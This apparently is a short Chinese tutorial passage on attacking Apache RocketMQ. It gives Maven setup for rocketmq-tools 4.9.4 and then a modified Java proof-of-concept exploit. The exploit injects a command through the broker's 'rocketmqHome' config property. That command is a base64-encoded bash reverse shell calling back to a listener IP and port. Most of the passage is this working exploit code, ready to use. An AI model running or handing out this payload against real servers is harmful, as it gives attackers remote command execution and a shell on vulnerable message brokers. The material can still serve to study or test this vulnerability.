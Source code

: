 使用IDEA创建maven项目，创建xml文件下载依赖,下载地址

> https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools/4.9.4

![](https://gitee.com/fuli009/images/raw/master/public/20230616185554.png)

    
    
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->  
    <dependency>  
        <groupId>org.apache.rocketmq</groupId>  
        <artifactId>rocketmq-tools</artifactId>  
        <version>4.9.4</version>  
    </dependency>

![](https://gitee.com/fuli009/images/raw/master/public/20230616185555.png)

修改POC

    
    
    import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;  
      
    import java.util.Base64;  
    import java.util.Properties;  
      
    public class poc {  
        private static String getCmd(String ip, String port) {  
            String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";  
            String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());  
            return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";  
        }  
      
        public static void main(String[] args) throws Exception {  
            String targetHost = "10.10.14.72";  
            String targetPort = "10911";  
          
            String shellHost = "10.10.14.72";  
            String shellPort = "65532";  
          
            String targetAddr = String.format("%s:%s",targetHost,targetPort);  
            Properties props = new Properties();  
            props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));  
            props.setProperty("filterServerNums", "1");  
            // 创建 DefaultMQAdminExt 对象并启动  
            DefaultMQAdminExt admin = new DefaultMQAdminExt();  
      
    //        admin.setNamesrvAddr("0.0.0.0:12345");  
            admin.start();  
            // 更新配置⽂件  
            admin.updateBrokerConfig(targetAddr, props);  
            Properties brokerConfig = admin.getBrokerConfig(targetAddr);  
            System.out.println(brokerConfig.getProperty("rocketmqHome"));  
            System.out.println(brokerConfig.getProperty("filterServerNums"));  
            // 关闭 DefaultMQAdminExt 对象  
            admin.shutdown();  
        }  
    }
